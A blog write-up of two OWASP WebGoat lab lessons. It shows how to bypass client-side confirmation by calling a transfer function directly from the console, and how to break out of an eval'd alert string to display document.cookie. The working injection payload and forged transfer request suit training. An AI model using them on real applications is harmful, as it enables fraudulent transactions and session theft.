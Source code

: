 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge Part 3 Continued (Continued)"
date:   2017-01-24 17:00:00 -0500
categories: webgoat
---
```

# AJAX Security Part 8: Silent Transaction Attacks
Instructions:
* This is a sample internet banking application - money transfer page.
* It shows below your balance, the account you are transferring to and amount you will transfer.
* The application uses AJAX to submit the transaction after doing some basic client side validations.
* Your goal is to try to bypass the user's authorization and silently execute the transaction.

Aha, client side validations. Sounds like we can mess with it, or at the very least read it and look for some exploitability. Nice! Let's take a look at the source.

In the HTML, we see the following code in the confirmation form:

```
<input onclick="processData();" id="confirm" value="Confirm" name="confirm" type="BUTTON">
```

Alright so there is a third-party function ```processData()``` being called when we want to send the request. Lets take a look at that function.

```
function processData(){
	var accountNo = document.getElementById('newAccount').value;
	var amount = document.getElementById('amount').value;
	if ( accountNo == ''){
		alert('Please enter a valid account number to transfer to.')
		return;
	}
	else if ( amount == ''){
		alert('Please enter a valid amount to transfer.')
		return;
	}
	 document.getElementById('confirm').value  = 'Transferring'
	submitData(accountNo, amount);
	document.getElementById('confirm').value  = 'Confirm'
	balanceValue = parseFloat(balanceValue) - parseFloat(amount);
	balanceValue = balanceValue.toFixed(2);
	document.getElementById('balanceID').innerHTML = balanceValue + '$';
}
```

Let's break it down. ```processData``` works by pulling the information for the account the money is being transferred to, and the amount of money to be transferred from the elements filled out on the page (as long as they are filled with some data). It then does a check to make sure you cannot transfer more money than you have in the account. If the transaction passes those checks, it calls another function ```submitData``` and passes it the destination account and the amount to transfer. Then ```processData``` continues on, adjusting the sender account's balance for the amount transferred.

So there are a lot of checks in ```processData``` to prevent any transfers that the user does not want to happen. Not to mention the initial confirmation button in the HTML that fires the function off. Its main job is to interact with the sender and update data about their balance and transactions. Kind of the opposite of "silent". Let's look at ```submitData```, the method that actually performs the transactions.

```
function submitData(accountNo, balance) {
	var url = 'attack?Screen=68&menu=400&from=ajax&newAccount='+ accountNo+ '&amount=' + balance +'&confirm=' + document.getElementById('confirm').value; 
	if (typeof XMLHttpRequest != 'undefined') {
		req = new XMLHttpRequest();
	} 
	else if (window.ActiveXObject) {
		req = new ActiveXObject('Microsoft.XMLHTTP');
	}
	req.open('GET', url, true);
	req.onreadystatechange = callback;
	req.send(null);
}
```

Hmm...not a confirmation, prompt, or check in sight! Well, let's see if we can call ```submitData``` directly from the console and bypass any user initiation or confirmation:

```
$submitData('hackeracct', 1000000)
```

<img src="{{ site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/silent-transaction.jpg">

Free money!!!

The real security implication here is that the ```submitData``` function actually sends a URL-formatted request to the server to perform this transaction:

```
GET /WebGoat/attack?Screen=68&menu=400&from=ajax&newAccount=hackeracct&amount=1000000&confirm=Confirm HTTP/1.1
Host: 192.168.56.101
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Referer: http://192.168.56.101/WebGoat/attack?Screen=68&menu=400
Cookie: JSESSIONID=C1702A9FE913D04E2F177203213F9149; acopendivids=swingset,jotto,phpbb2,redmine; acgroupswithpersist=nada
Authorization: Basic dXNlcjp1c2Vy
Connection: close
```

So a legitimate attack might look more like a phishing campaign to members of WebGoat bank that asks them to update some account information. And then...

# AJAX Security Part 9: Dangerous Use of Eval
Instructions:
* For this exercise, your mission is to come up with some input containing a script. You have to try to get this page to reflect that input back to your browser, which will execute the script. In order to pass this lesson, you must 'alert()' document.cookie.

Alright, so we're started off with a shopping cart and some credit card info

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-1.jpg">

When we go to purchase, the server responds with an alert that tells us whether the request went through or not. Enter our exploitable vector.

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-2.jpg">

Initially, without really thinking I tried a bunch of naive XSS inserts that didn't pop. Then I realized that I was trying to pop an alert inside of an alert, which didn't make much sense. So let's think about this more logically. If we enter an incorrect PIN, the document generates an alert that looks something like this:

```
alert('Whoops: You entered an incorrect access code of "' + document.form.field1 + '"')
```

Maybe we can break out of the alert and append another? Similar to the mechanism for HTTP Response Splitting. Let's give it a shot with:

```
fail"');alert(document.cookie
```

This almost worked, but we received:

```
alert('Whoops: You entered an incorrect access code of "fail");alert(document.cookie");
```

Aha, right we forgot about the closed string. Let's try to tack on another alert on the end?

```
fail"');alert(document.cookie);alert('"filler
```

Now everything is properly escaped, and we get three alerts, of which the second is:

<img src="{{  site.baseurl }}/images/2017-01-24-webgoat_part_3_continued_continued/eval-3.jpg">

Success! Definitely not too subtle with three alerts, but we pop the cookie!